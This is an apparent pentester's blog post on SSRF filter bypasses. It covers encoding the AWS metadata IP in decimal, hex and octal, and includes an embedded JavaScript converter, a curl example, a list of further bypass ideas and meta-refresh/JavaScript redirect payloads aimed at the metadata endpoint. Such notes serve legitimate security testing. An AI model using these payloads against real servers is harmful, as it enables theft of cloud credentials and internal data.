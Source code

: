 ```yaml
---
title: "IP conversion tricks"
date: 2020-04-30T15:26:28+10:00
draft: false
---
```


Occasionally I need to bypass some dodgy filter to perform Server Side Request Forgery (SSRF). This could be useful in these instances. Example below is how you may be able to use this trick to bypass filters for the "magic cloud url" to get metadata of the server. Try `curl http://2852039166/latest` on an ec2 instance and see for yourself.

And yes, in case you have not tried, you can even mix them up and shorten it by ignore 0, eg try `ping 192.0x2a.012` will ping 191.42.0.10 ip address :)

Note: For a more elaborate tool, [XIP](https://github.com/immunIT/XIP) can do a lot more transformations.


<form name="base">
<table>
<tr>
<td><strong>IPv4 Dec</strong></td>
<td><input type="text" name="dotd" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="169.254.169.254" onChange="evalDot(this)" autofocus></td>
</tr>

<tr>
<td><strong>Dotted Hex</strong></td>
<td><input type="text" name="doth" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="" onChange="evalDotHex(this)"></td></tr>

<tr>
<td><strong>Dotted Octal</strong></td>
<td><input type="text" name="doto" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="" onChange="evalDotOct(this)"></td>
</tr>
<tr>
<td><strong>Hexadecimal</strong></td>
<td><input type="text" name="h16" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="" onChange="evalNumber(this, 16)"></td>
</tr>
<tr>
<td><strong>Decimal</strong></td>
<td><input type="text" name="d10" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="" onChange="evalNumber(this, 10)"></td>
</tr>
<tr>
<td><strong>Octal</strong></td>
<td><input type="text" name="o8" style="font-family: Verdana; font-weight: bold; font-size: 12px; background-color: lightgreen;width:100%" value="" onChange="evalNumber(this, 8)"></td>
</tr>

</table>
</form>



<script type="text/javascript">
var hex = new Array("0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F");
function checkInt(n, r) {
  for (var i = 0; i < n.length; ++i)
    if (n.charAt(i) >= r) {
      alert("Invalid digit");
      return 0;
    }
    if (isNaN(M = parseInt(n, r)))
      alert ("Invalid number");
    return M;
}
function decimaltoAnother(A, radix) {
  s = "";
  while (A >= radix) {
    s += hex[A % radix];
    A = Math.floor(A / radix);
  }
  return transpose(s += hex[A]);
}
function transpose(s) {
  N = s.length;
  for (i = 0,t = ""; i < N; i++)
    t += s.substring(N-i-1, N-i);
  return t;
}
function num2dot(num) {
  var d = num%256;
  for (var i = 3; i > 0; i--) { 
    num = Math.floor(num / 256);
    d = num % 256 + '.' + d;
  }
  return d;
}
function num2dotHex(num) {
  var d = decimaltoAnother(num % 256, 16);
  d = fixHex(d);
  for (var i = 3; i > 0; i--) { 
    num = Math.floor(num / 256);
    tmp = decimaltoAnother(num % 256, 16);
    tmp = fixHex(tmp);
    d = tmp + '.' + d;
  }
  return d;
}
function fixHex(num) {
  if (num.length == 1)
    return "0x0" + num;
  else if (num.length == 2)
    return "0x" + num;
}
function num2dotOct(num) {
  var d = decimaltoAnother(num % 256, 8);
  d = fixOct(d);
  for (var i = 3; i > 0; i--) { 
    num = Math.floor(num / 256);
    tmp= decimaltoAnother(num % 256, 8);
    tmp = fixOct(tmp);
    d =  tmp + '.' + d;
  }
  return d;
}
function fixOct(num) {
  if (num.length == 1)
    return "000" + num;
  else if (num.length == 2)
    return "00" + num;
  else if (num.length == 3)
    return "0" + num;
}
function dot2num(dot) {
  var d = dot.split('.');
  return ((((((+d[0])*256)+(+d[1]))*256)+(+d[2]))*256)+(+d[3]);
}
function evalNumber(item, r) {
  n = checkInt(item.value, r);
  n = decimaltoAnother(n, 10) % 4294967296;
  base.d10.value = n;
  base.o8.value = "0" + decimaltoAnother(n, 8);
  base.h16.value = "0x" + decimaltoAnother(n, 16);
  base.dotd.value = num2dot(base.d10.value);
  base.doth.value = num2dotHex(base.d10.value);
  base.doto.value = num2dotOct(base.d10.value);
}
function evalDot(item) {
  n = dot2num(item.value);
  base.d10.value = n;
  base.doto.value = num2dotOct(n);
  base.doth.value = num2dotHex(n);
  base.o8.value = "0" + decimaltoAnother(n, 8);
  base.h16.value = "0x" + decimaltoAnother(n, 16);
}
function evalDotOct(item) {
  d = item.value.split('.');
  tmp = checkInt(d[0], 8);
  n = decimaltoAnother(tmp, 10);
  for (var i = 1; i <= 3; i++) {
    tmp = checkInt(d[i], 8);
    n += "." + decimaltoAnother(tmp, 10);
  }
  base.dotd.value = n;
  evalDot(base.dotd);
}
function evalDotHex(item) {
  d = item.value.split('.');
  tmp = checkInt(d[0], 16);
  n = decimaltoAnother(tmp, 10);
  for (var i = 1; i <= 3; i++) {
    tmp = checkInt(d[i], 16);
    n += "." + decimaltoAnother(tmp, 10);
  }
  base.dotd.value = n;
  evalDot(base.dotd);
}
evalDot(base.dotd)
</script>


__April 2020 Update__: Thought i would quickly update this post since i have been dealing with a few SSRF issues :)


Another things to consider: Protocol smuggling

An interesting endpoint for aws beside metadata endpoint is [lambda runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). Usually at http://127.0.0.1:9001/2018-06-01/runtime/invocation/next

Other potential bypasses: 
  - Simple A record
  - A record with multiple ip addresses listed
  - IPV6
  - 3xx redirect
  - DNSRebinding
  - With the rise of chromeheadless, we can now try redirecting it using meta-refresh or javascript

```
<meta http-equiv="refresh" content="0;url=http://169.254.169.254/latest" />
<script>
  window.location.replace("http://169.254.169.254");
</script>
```
  - With chromeheadless we can also mess with URL like `http://example.com@169.254.169.254/latest/
